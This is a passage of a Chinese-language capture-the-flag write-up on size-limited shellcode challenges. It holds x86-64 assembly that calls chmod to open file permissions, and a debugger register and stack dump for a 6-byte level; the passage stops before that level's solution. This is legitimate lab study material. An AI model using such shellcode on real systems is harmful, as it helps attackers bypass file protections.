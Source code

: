 ```python
push 0x66
mov rdi,rsp
push 777
pop rsi
mov al,0x5a      
syscall
''')
# len = 12bytes
```
```python
shellcode = asm("""
    push 0x41
    mov rdi, rsp
    mov sil, 0x4        # sil即寄存器rdi低位部分
    mov al, 0x5a
    syscall
""")
```
## 其他方法（待补充.....）
# (⭐♥) level 14. 6字节shellcode【局限性较大】
```c
puts("Reading 0x6 bytes from stdin.\n");
shellcode_size = read(0, shellcode_mem, 0x6);
assert(shellcode_size > 0);
```
> 本题需要具体调试分析寄存器状态

## 查看 shellcode 执行前程序状态
```shell
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────── registers ────────────────────────────────────────────────
$rax   : 0x0               
$rbx   : 0x000055c16ef2c7e0  →  <__libc_csu_init+0> endbr64 
$rcx   : 0x00007fcc8aa41297  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x000000002d3f0000  →  0x0000616161616161 ("aaaaaa"?)
$rsp   : 0x00007ffe78f7ab70  →  0x00007ffe78f7ab96  →  0x27106ef2c2000000
$rbp   : 0x00007ffe78f7abb0  →  0x0000000000000000
$rsi   : 0x00007fcc8ab20723  →  0xb217e0000000000a ("\n"?)
$rdi   : 0x00007fcc8ab217e0  →  0x0000000000000000
$rip   : 0x000055c16ef2c7c1  →  <main+634> call rdx
$r8    : 0x16              
$r9    : 0x3               
$r10   : 0x000055c16ef2d105  →  0x7c20002020200020 (" "?)
$r11   : 0x246             
$r12   : 0x000055c16ef2c200  →  <_start+0> endbr64 
$r13   : 0x00007ffe78f7aca0  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────── stack ───────────────────────────────────────────────────────────
0x00007ffe78f7ab70│+0x0000: 0x00007ffe78f7ab96  →  0x27106ef2c2000000    ← $rsp
0x00007ffe78f7ab78│+0x0008: 0x00007ffe78f7acb8  →  0x00007ffe78f7bf22  →  0x0000000000000000
0x00007ffe78f7ab80│+0x0010: 0x00007ffe78f7aca8  →  0x00007ffe78f7bf05  →  0x0000000000000000
0x00007ffe78f7ab88│+0x0018: 0x000000016ef2c7e0
0x00007ffe78f7ab90│+0x0020: 0x0000000000000000
0x00007ffe78f7ab98│+0x0028: 0x000027106ef2c200
0x00007ffe78f7aba0│+0x0030: 0x00007ffe78f7acb0  →  0x0000000000000000
0x00007ffe78f7aba8│+0x0038: 0x00007ffe78f7ada0  →  0x0000000000000000
────────────────────────────── code:x86:64 ────────────────────────────────────────────────
```